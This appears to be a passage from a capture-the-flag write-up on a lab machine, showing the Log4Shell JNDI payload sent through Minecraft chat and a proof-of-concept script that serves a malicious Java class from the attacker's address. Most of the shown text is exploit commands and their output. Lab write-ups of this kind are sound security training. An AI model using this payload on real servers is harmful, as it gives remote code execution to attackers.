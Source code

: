 During the respawn, It will ask for the password. Just hit enter.

```
$ sudo ./MinecraftClient-20240816-275-linux-x64 lol
Minecraft Console Client v1.20.4 - for MC 1.4.6 to 1.20.4 - Github.com/MCCTeam
GitHub build 275, built on 2024-08-16 from commit c5dc517
Password(invisible): 
You chose to run in offline mode.
Server IP : 
Resolving crafty.htb...
Retrieving Server Info...
Server version : 1.16.5 (protocol v754)
[MCC] Version is supported.
Logging in...       
[MCC] Server is in offline mode.
[MCC] Server was successfully joined.
Type '/quit' to leave the server.
Unknown or incomplete command, see below for error
/<--[HERE]          
[MCC] You have respawned.
<lol> ${jndi:ldap://10.10.14.4:1389/a}
[MCC] You have respawned.         
<lol> ${jndi:ldap://10.10.14.4:1389/a}
lol was slain by Zombie
[MCC] You are dead. Type '/respawn' to respawn.
[MCC] You have respawned.         
[MCC] Connection has been lost.   
  
Not connected to any server. Use '/help' for help.
Or press Enter to exit Minecraft Console Client.
> 
```

Running the Exploit and starting the netcat listener.

```
$ sudo python poc.py --userip 10.10.14.4 --webport 80 --lport 4444

[!] CVE: CVE-2021-44228                                                                                                                                                 
[!] Github repo: https://github.com/kozmer/log4j-shell-poc                                                                                                              

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://10.10.14.4:1389/a}

[+] Starting Webserver on port 80 http://0.0.0.0:80
Listening on 0.0.0.0:1389
Send LDAP reference result for a redirecting to http://10.10.14.4:80/Exploit.class
10.10.11.249 - - [22/Aug/2024 01:43:35] "GET /Exploit.class HTTP/1.1" 200 -

```
